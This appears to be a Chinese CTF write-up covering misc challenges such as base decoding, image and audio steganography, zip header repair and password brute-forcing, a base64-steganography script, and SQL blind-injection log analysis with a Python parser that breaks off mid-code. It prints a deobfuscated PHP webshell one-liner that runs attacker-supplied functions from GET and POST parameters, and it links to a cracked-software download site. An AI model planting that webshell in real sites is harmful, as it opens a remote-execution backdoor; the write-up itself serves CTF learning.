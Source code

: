 ## Misc
### CyberChef’s Secret
打开base加密，使用在线工具base32 58 64连续解码

![](C:\Users\33027\AppData\Roaming\Typora\typora-user-images\image-20241118112750506.png)

### 机密图片、
扫码，额没用

更改为jpg，额没用

试一下工具Stegsolve.jar，然后获得flag

找不到合适的版本打开的字都很小，眼睛疼

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026736728-6b4506b9-0360-47ca-b687-ee8b15f0ca12.png)

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026753435-ef44b347-0b7b-49e9-8036-d7626fa5790a.png)

### <font style="color:rgb(51, 51, 51);">流量！鲨鱼！</font>
<font style="color:rgb(51, 51, 51);">使用WireShark打开它</font>

<font style="color:rgb(51, 51, 51);">然后导出HTTP对象文件</font>

<font style="color:rgb(51, 51, 51);">然后发现了这个有点像flag的文件名</font>

<font style="color:rgb(51, 51, 51);">打开之后发现是一串base加密后的密文，那么将它解密即可，是两层base64</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026791805-25b59d7f-6e52-4307-9057-34a6bbf47113.png)

### <font style="color:rgb(51, 51, 51);">压缩包们</font>
先修改后缀名zip，打不开

winhex修改前八位为50 4B 03 04 14 00 00 00

解压，需要密码[ziperello](https://ziperello-2-1.en.softonic.com/download)直接暴力破解得到

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026810345-14af0b87-6ec6-4c5d-93d6-ec99c41da127.png)

<font style="color:rgb(51, 51, 51);">看了一下解析</font>

<font style="color:rgb(51, 51, 51);">发现原来还有一串base64编码，不过无伤大雅，破解速度快慢的问题而已</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026834876-d2ad757f-11f1-4dd0-9dc4-d81e4808c6cb.png)

<font style="color:rgb(51, 51, 51);">SSBsaWtlIHNpeC1kaWdpdCBudW1iZXJzIGJlY2F1c2UgdGhleSBhcmUgdmVyeSBjb25jaXNlIGFuZCBlYXN5IHRvIHJlbWVtYmVyLg==</font>

无法解压，一开始用的7-zip测试，测试后发现压缩包存在错误，但没有修复功能

使用bandzip专业版进行修复，免费版也没有修复功能，找了好几个破解版[Bandizip解压缩软件 v7.36 正式版破解专业版 - 423Down](https://www.423down.com/9735.html)

flag{y0u_ar3_the_m4ter_of_z1111ppp_606a4adc}

### 空白格
<font style="color:rgb(51, 51, 51);">打开什么都有，更换字体也没有</font>

<font style="color:rgb(51, 51, 51);">但是鼠标下滑有蓝色框框，说明是有内容的</font>

<font style="color:rgb(51, 51, 51);">搜索ctf空格加密</font>

<font style="color:rgb(51, 51, 51);">WhiteSpace，是一种只用空白字符（空格，TAB和回车）编程的语言，而其它可见字符统统为注释。</font>[<font style="color:rgb(51, 51, 51);">https://byxs20.github.io/posts/7979.html</font>](https://byxs20.github.io/posts/7979.html)<font style="color:rgb(51, 51, 51);">在线解码</font>  
 ![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026878679-d69aa7fb-e39b-4628-9ec2-73d5a1b6f671.png)

### <font style="color:rgb(51, 51, 51);">隐秘的眼睛</font>
<font style="color:rgb(51, 51, 51);">题目翻译英文查了一下发现是SilentEye ，使用silenteye打开,decode.</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026906681-e12e9748-8e1b-4203-8d51-a56e62cd3011.png)

### <font style="color:rgb(51, 51, 51);">新建word文档</font>
<font style="color:rgb(51, 51, 51);">打开word空白，ctrl+a全选，右击选择字体，关闭隐藏效果</font>

<font style="color:rgb(51, 51, 51);">得到如下文字新佛曰：毘諸隸僧降吽諸陀摩隸僧缽薩願毘耨咤陀願羅咤喃修願宣亦宣寂叻寂阿是吽阿塞尊劫毘般毘所聞降毘咒塞尊薩咒毘所若降般斯毘嚴毘嚴波斯迦毘色毘波嚴毘喃念若修嘚般毘我毘如毘如囑囑</font>

<font style="color:rgb(51, 51, 51);">复制直接搜索，第一个就是新约佛论禅</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026949959-72e7ab6f-50d6-4afb-8f13-f1783901b9eb.png)

### <font style="color:rgb(51, 51, 51);">永不消逝的电波</font>
<font style="color:rgb(51, 51, 51);">很明显的一段摩斯密码</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026969908-f5f116e9-2b54-4d5e-a635-483961d1bb8d.png)

<font style="color:rgb(51, 51, 51);">不会写代码，使用了较为朴素的方法，放大波形图一个一个抄下来</font>

<font style="color:rgb(51, 51, 51);">..-./.-../.-/--./-/...././-..././.../-/-.-./-/..-././.-./../.../-.--/---/..-</font>

<font style="color:rgb(51, 51, 51);">再在线工具解码</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732026983974-c42676c1-c947-4158-b871-7c54a9f64443.png)

### <font style="color:rgb(51, 51, 51);">BASE</font>
[<font style="color:rgb(51, 51, 51);">https://cloud.tencent.com/developer/article/2160364</font>](https://cloud.tencent.com/developer/article/2160364?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2OTczNzU3NTAsImZpbGVHVUlEIjoiRHk1ZWtISmhLbzBhcDV2MyIsImlhdCI6MTY5NzM3NTQ1MCwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjotODMxMTE0NzQxNX0.mTWIluoUq65XDAhk6XrX9TnWYTlf03r-E2CS43TFFdY)

<font style="color:rgb(51, 51, 51);">根据上述文章来看存在base隐写</font>

<font style="color:rgb(51, 51, 51);">base64隐写原理</font><font style="color:rgb(51, 51, 51);">在存在占位符=的情况下，会将部分位的二进制数丢弃，而这些被丢弃的位中可以插入隐写的信息，即在那些用0补充的位上插入别的信息，同时又不影响base解码</font><font style="color:rgb(51, 51, 51);">可知base64编码中，末尾=的个数只可能是0个、1个、2个，而0个的时候无法隐写，故我们需要考虑末尾有1个或2个等号的情况</font><font style="color:rgb(51, 51, 51);">————————————————</font>

                        版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。

<font style="color:rgb(51, 51, 51);">原文链接：</font>[<font style="color:rgb(51, 51, 51);">https://blog.csdn.net/weixin_51804748/article/details/121792094</font>](https://blog.csdn.net/weixin_51804748/article/details/121792094)

<font style="color:rgb(51, 51, 51);">不会脚本，找一下大神的现成代码</font>

<font style="color:rgb(0, 0, 0);background-color:rgb(243, 244, 245);">b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/' with open('base.txt', 'rb') as f: bin_str = '' for line in f.readlines(): stegb64 = ''.join(line.split()) rowb64 = ''.join(stegb64.decode('base64').encode('base64').split()) offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1])) equalnum = stegb64.count('=') #no equalnum no offset if equalnum: bin_str += bin(offset)[2:].zfill(equalnum * 2) print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])</font>



<font style="color:rgb(51, 51, 51);">稍微改一下打开文件名，查了一下说要以python2运行</font>

<font style="color:rgb(51, 51, 51);">iDMb6ZMnTFMtFuouYZHwPTYAoWjC7Hjca8</font>

<font style="color:rgb(51, 51, 51);">Base58解密得到flag{b4se_1s_4_g0od_c0d3}</font>

### <font style="color:rgb(51, 51, 51);">java</font>
<font style="color:rgb(51, 51, 51);">下载附件，百度识图了一下，美女叫gakki</font>

<font style="color:rgb(51, 51, 51);">根据题目提示，和java有关搜索JAVA得到是JAVA盲水印，需要使用blindwatermark</font>[BlindWatermark:Java 盲水印 - GitCode](https://gitcode.com/gh_mirrors/blin/BlindWatermark/overview?utm_source=csdn_github_accelerator&isLogin=1)

<font style="color:rgb(51, 51, 51);">使用教程具体使用过程参考的这篇文章</font>[【CTF-misc】java盲水印BlindWatermark工具使用_ctf 盲水印-CSDN博客](https://blog.csdn.net/qq_39972370/article/details/134145890)

<font style="color:rgb(51, 51, 51);">正好是拿这道题举的例子，爽，一步一步跟着做就行</font>

![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732027293990-611c373b-a025-429a-916f-1c19a255d898.png)

flag{3bb3c3a628a94c}

### WELBSHELL的利用
PHP混淆加密

[php解密加密|php混淆破解|phpjm破解|phpdp神盾破解|php威盾破解|php微盾破解|tianyiw破解|php源码破解|php在线破解|php反编译|zend6解密|Zend Guard 6 破解](http://www.zhaoyuanma.com/phpjm.html)

# ![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732027334991-75b97245-b6ba-4af6-967c-18eb6c882e8f.png)
<font style="color:rgb(51, 51, 51);">wellshell为error_reporting(0);($</font>_<font style="color:rgb(51, 51, 51);">GET['7d67973a'])($</font>_<font style="color:rgb(51, 51, 51);">POST['9fa3']); </font>

<font style="color:rgb(51, 51, 51);">函数的动态调用，GET传入函数名，POST传入函数参数  
</font><font style="color:rgb(51, 51, 51);"> </font>![](https://cdn.nlark.com/yuque/0/2024/png/50077463/1732027376386-4e477ae3-814b-41fd-a7e5-4ccdc9ba99ac.png)

### <font style="color:rgb(51, 51, 51);">序章</font>
完了，这个是真不会，问一问ai爹

日志中的请求是典型的SQL注入攻击尝试，攻击者试图通过逐字符比较ASCII值来获取数据库中的用户名和密码。

对SQL进行搜索找到文章[Bugku-CTF分析篇-日志审计（请从流量当中分析出flag） - 0yst3r - 博客园](https://www.cnblogs.com/0yst3r-2046/p/12322110.html?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2OTczNzU3NTAsImZpbGVHVUlEIjoiRHk1ZWtISmhLbzBhcDV2MyIsImlhdCI6MTY5NzM3NTQ1MCwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjotODMxMTE0NzQxNX0.mTWIluoUq65XDAhk6XrX9TnWYTlf03r-E2CS43TFFdY)

使用[notepad++](https://blog.csdn.net/c_QFy_17/article/details/142600933)

用 notepad++ 的插件中的 MIME Tool 中的 URL decode 解一下码

上面说是盲注（不知道）

偷偷看一下去年wp，然后再剽窃一下大佬脚本

# coding:utf-8import re  
import urllib

f = open('access.log','r')  
lines = f.readlines()  
datas = []  
for line in lines:  
    t = urllib.unquote(line)   
    datas.append(t)

flag_ascii = {}  
for data in datas:  
    matchObj = re.search( r'user),(._?),1))=(._?),sleep', data)  
    if matchObj:



<font style="color:rgb(51, 51, 51);">you_w4nt_s3cretflag{just_w4rm_up_s0_you_n3ed_h4rder_6026cd32},</font>

<font style="color:rgb(51, 51, 51);">flag{just_w4rm_up_s0_you_n3ed_h4rder_6026cd32}</font>

  
 



# 
